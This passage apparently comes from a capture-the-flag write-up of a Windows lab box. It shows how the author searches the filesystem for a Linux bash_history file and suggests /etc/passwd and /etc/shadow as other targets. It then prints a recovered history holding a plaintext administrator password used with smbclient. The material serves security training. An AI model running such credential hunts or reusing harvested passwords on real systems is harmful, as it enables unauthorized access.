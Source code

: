 ```php
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

Also, looking around the target, it seems like the client has the Ubuntu subsystem for Windows installed:

- https://www.microsoft.com/en-us/p/ubuntu/9nblggh4msv6
- https://docs.microsoft.com/en-us/windows/wsl/

This is because of the files `c:\Ubuntu.zip` and `c:\Users\tyler\Desktop\bash.lnk`. Maybe there are interesting files in the user's linux filesystem? First find these files by looking for common Linux file names that have good info:

- **NOTE:** Skipping ahead here to the right filename to look for. However, looking for things like `bashrc`, `/etc/passwd`, and  `/etc/shadow` will also work. From there, just look around the linux filesystem for interesting files...

```bash
dir c:\ /a /b /s | findstr bash_history
```

![user3](./secnotes/user3.png)

That file looks promising. It has the following content:

```
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
exit
```
